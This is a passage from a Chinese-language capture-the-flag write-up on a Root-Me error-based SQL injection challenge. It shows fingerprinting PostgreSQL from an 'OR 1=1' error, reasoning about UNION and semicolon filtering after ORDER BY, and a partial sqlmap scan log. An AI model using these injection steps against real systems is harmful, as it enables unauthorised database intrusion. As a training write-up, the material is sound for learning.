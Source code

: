 ------------

## 确定数据库类型

> **为了方便构造 payload ，从这里开始使用 Burp Suite 工具**。

其实一般情况下，SQL 注入要找到有用信息，主要都是通过 `union` 或分号 `;` 横向查找系统表。

但是这题的注入点太蹊跷，在 `order by` 后面，而且 SQL 没有用括号包围，导致 `union` 失效。

而分号 `;` 则会直接被攻击检测系统拦截。由此看来只能另辟蹊径。

不过我在随便注入的时候发现，如果注入 `OR 1=1` ，会触发一个异常：

`ERROR:  argument of OR must be type boolean, not type character varying`

这个异常信息就很意思了，我搜索了一下，发现 `not type character varying` 是 **PostgreSql** 数据库特有关键字。

![](https://github.com/lyy289065406/CTF-Solving-Reports/blob/master/rootme/Web-Server/%5B47%5D%20%5B40P%5D%20SQL%20injection%20-%20Error/imgs/09.png)


------------

## 通过 sqlmap 找到探针

> 注：PostgreSql 数据库，通常也简称为 pgsql 。

知道数据库类型，就可以针对性注入了。而对于 pgsql ，据我所知可以在 order by 后面注入的 payload 是不多的。

在这里可以借助 sqlmap 先找到探针。

如果 Burp Suite 已经加了 sqlmap 插件，可以直接把完整的 HTTP 请求发送到 sqlmap （注意这个请求的 URL 不要注入前面的其他东西，保持题目最原始的参数即可）：

![](https://github.com/lyy289065406/CTF-Solving-Reports/blob/master/rootme/Web-Server/%5B47%5D%20%5B40P%5D%20SQL%20injection%20-%20Error/imgs/10.png)
![](https://github.com/lyy289065406/CTF-Solving-Reports/blob/master/rootme/Web-Server/%5B47%5D%20%5B40P%5D%20SQL%20injection%20-%20Error/imgs/11.png)


这里记录了 sqlmap 的扫描结果：

```shell
S:\04_work\BurpSuite>sqlmap.py -r C:\Users\ADMINI~1\AppData\Local\Temp\\1552703940473.req
        ___
       __H__
 ___ ___[(]_____ ___ ___  {1.3.3.23#dev}
|_ -| . [)]     | .'| . |
|___|_  [,]_|_|_|__,|  _|
      |_|V...       |_|   http://sqlmap.org

[!] legal disclaimer: Usage of sqlmap for attacking targets without prior mutual consent is illegal. It is the end user's responsibility to obey all applicable local, state and federal laws. Developers assume no liability and are not responsible for any misuse or damage caused by this program

[*] starting @ 10:39:03 /2019-03-16/

[10:39:03] [INFO] parsing HTTP request from 'C:\Users\ADMINI~1\AppData\Local\Temp\\1552703940473.req'
[10:39:04] [INFO] testing connection to the target URL
[10:39:05] [INFO] checking if the target is protected by some kind of WAF/IPS
[10:39:05] [INFO] testing if the target URL content is stable
[10:39:06] [INFO] target URL content is stable
[10:39:06] [INFO] testing if GET parameter 'action' is dynamic
[10:39:06] [INFO] GET parameter 'action' appears to be dynamic
[10:39:07] [WARNING] heuristic (basic) test shows that GET parameter 'action' might not be injectable
[10:39:07] [INFO] testing for SQL injection on GET parameter 'action'
[10:39:07] [INFO] testing 'AND boolean-based blind - WHERE or HAVING clause'
[10:39:12] [INFO] testing 'Boolean-based blind - Parameter replace (original value)'
```